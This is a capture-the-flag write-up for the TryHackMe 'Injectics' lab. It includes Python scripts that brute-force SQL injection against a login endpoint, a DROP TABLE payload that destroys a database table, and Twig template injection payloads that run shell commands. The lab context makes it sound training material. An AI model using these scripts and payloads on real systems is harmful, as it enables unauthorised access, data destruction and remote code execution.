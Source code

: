 ## THM CTF - Injectics

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   injectics.thm
```
Now we can proceed with an ```Nmap``` scan.
```
nmap -sS -T4 -p22,80 -sV -sC injectics.thm
```
We’ve found two open ports, but for now, we’re focusing on HTTP. We’ll leave the SSH port open for later if we need it.

We can ignore all other ```Nmap``` scans for now because we need to test a web application. However, the scan reveals that the ```HTTPOnly``` flag for cookies isn’t set.

We can use a ```Gobuster``` scan to enumerate any hidden directory:
```
gobuster dir -u http://injectics.thm -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log
```
This scan reveals a file named ```mail.log``` containing some credentials. The mail message states that if the database gets corrupted, there are some credentials that can be used to access the system.
```
| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |
```
This is our objective for now, corrupt the database.

There are 2 login pages:
* ```login.php``` is protected against basic SQL injection attempts by a script. This script uses the ```Ajax GET method``` to retrieve responses from the server after our input, from a page named ```functions.php```. While reading the script closely, we can identify the landing page in case of correct credentials, which was already highlighted by ```Gobuster``` as ```dashboard.php```.
* ```adminLogin007.php``` is not protected by basic SQLi attack while not redirecting anywhere after our input.

We can try to inject some payload through ```functions.php``` with the help of ```BurpSuite``` and an already composed payload downloaded from [GitHub](https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt).

We can do it at a faster rate thanks to a Python script.

<details>
<summary><h3>THM_Injectics_SQLi_brute.py</h3></summary>
  
```python

import requests
import string

# Set URL and main variables
url_brute = 'http://injectics.thm/functions.php'
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
}
file_path = '/home/kali/Downloads/SQLi.txt'

# Start a new session
session = requests.Session()

#Try to read the file content then execute the attack
try:
    with open(file_path, 'r') as file:
        for item in file:

# Create Payload based on the payload selected line by line
            payload={
                "username" : item.strip(),
                "password" : "admin",
                "function" : "login"
            }

# Send the request
            response = session.post(url_brute, headers=headers, data=payload)

# Check for the correct response and print the output in the terminal
            if response.json()['status'] != 'error':
                print(f"Access Granted with this payload: {item.strip()}")
                print(f"Use this session Cookie: {session.cookies['PHPSESSID']}")
                break
except FileNotFoundError:
    print(f"File not found: {file_path}")

```
  
</details>

We obtain a valid session with:
```
' OR 'x'='x'#;
```
Json response:
```
{"status":"success","message":"Login successful","is_admin":"true","first_name":"dev","last_name":"dev","redirect_link":"dashboard.php?isadmin=false"}
```

With the same ```Cookie``` used to execute the attack, we can access to the ```dashboard.php``` page as a DEV.

Now we can try to drop the database.

In the dashboard we can edit some more fields (like gold, silver and bronze of the list), so we try another brute-force attack in search for ```SQLi``` vulnerability.

We can use ```BurpSuite``` or previous Python code extended.

<details>
<summary><h3>THM_Injectics_SQLi_brute.py (Complete)</h3></summary>
  
```python

import requests
import string

# Set URL and main variables
url_brute = 'http://injectics.thm/functions.php'
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
}
file_path = '/home/kali/Downloads/SQLi.txt'

# Start a new session
session = requests.Session()

#Try to read the file content then execute the attack
try:
    with open(file_path, 'r') as file:
        for item in file:

# Create Payload based on the payload selected line by line
            payload={
                "username" : item.strip(),
                "password" : "admin",
                "function" : "login"
            }

# Send the request
            response = session.post(url_brute, headers=headers, data=payload)

# Check for the correct response and print the output in the terminal
            if response.json()['status'] != 'error':
                print(f"Access Granted with this payload: {item.strip()}")
                print(f"Use this session Cookie: {session.cookies['PHPSESSID']}")
                break
except FileNotFoundError:
    print(f"File not found: {file_path}")


# After Obtaining a valid session we can attack the inner page
# Define new variables
inner_url = 'http://injectics.thm/edit_leaderboard.php'
logout_url = 'http://injectics.thm/logout.php'

#Try to read the file content then execute the attack
try:
    with open(file_path, 'r') as file:
        for item in file:

# Create Payload based on the payload selected line by line
            payload={
                "rank": "1",
                "country": "USA",
                "gold": item.strip(),
                "silver": "21",
                "bronze": "12345"
            }

# It seems that all the headers value need to be filled for the request to be successful
            headers = {
                    'Host': 'injectics.thm',
                    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0',
                    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8',
                    'Accept-Language': 'en-US,en;q=0.5',
                    'Accept-Encoding': 'gzip, deflate, br',
                    'Content-Type': 'application/x-www-form-urlencoded',
                    'Content-Length': '46',
                    'Origin': 'http://injectics.thm',
                    'DNT': '1',
                    'Sec-GPC': '1',
                    'Connection': 'keep-alive',
                    'Upgrade-Insecure-Requests': '1',
                    'Priority': 'u=0, i'
                }
# Send the request
            response = session.post(inner_url, headers=headers, data=payload)

# Check for the correct response and print the output in the terminal
            if 'Error updating data' not in response.text and 'Welcome to the Injectics 2024' not in response.text:
                print(f"Payload found: {item.strip()}")

# Then try to drop the Database if the first attack is successful
                print(f"Try to drop database...")

# Craft the correct payload
                payload='rank=1&country=&gold=23;DROP+Table+users;&silver=21&bronze=12345'

# Send the payload and check if the database is correctly dropped
                response = session.post(inner_url, headers=headers, data=payload)
                if 'important table' in response.text:
                    print(f"Good Job! Database Dropped")
                break
except FileNotFoundError:
    print(f"File not found: {file_path}")

```
  
</details>

We find that in the private area there is no protection against basic ```SQLi``` like:
```
or 1=1
```
So we try to drop the database via ```BurpSuite``` changing the value of ```gold``` variable to:
```
23;DROP+Table+users;
```
After logging out, we encounter an error message indicating a database malfunction. 

***All these phases are handled by the Python script.***

However, after a brief wait, we can attempt to log in again using the credentials we previously found, successfully gaining access to the Admin page via:
```
http://injectics.thm/adminLogin007.php
```
In the Admin page there is the first flag and a ```Profile``` page where we can test something else.

Previously while we enumerate folders with ```Gobuster```, we found a file ```composer.json``` that tells us that the ```Template Engine``` used in the making of this site is ```Twig```.

We can try to submit the payload in the ```First Name``` of the profile:
```
{{7*7}}
```
We then navigate to the main page to discover that our welcome message changed to ```Welcome, 49!```

So we can test others payload to discover the content of ```flags``` folder (discovered with ```Gobuster```). Thanks to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md#twig---code-execution) we can find the other flag.
```
{{['ls',""]|sort('passthru')}}
{{['ls flags',""]|sort('passthru')}}
{{['cat+flags/5d8af1dc14503c7e4bdc8e51a3469f48.txt',""]|sort('passthru')}}
```
